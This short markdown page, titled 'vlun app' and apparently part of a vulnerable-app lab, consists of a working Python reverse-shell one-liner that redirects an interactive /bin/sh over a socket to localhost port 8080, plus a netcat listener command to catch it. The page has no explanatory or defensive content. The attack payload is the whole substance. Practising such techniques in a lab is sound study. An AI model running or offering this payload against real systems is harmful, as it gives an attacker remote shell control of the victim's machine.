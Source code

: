 
# vlun app

## python reverse shell

### input
```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("localhost",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### wait
```shell
nc -nlvp 8080
```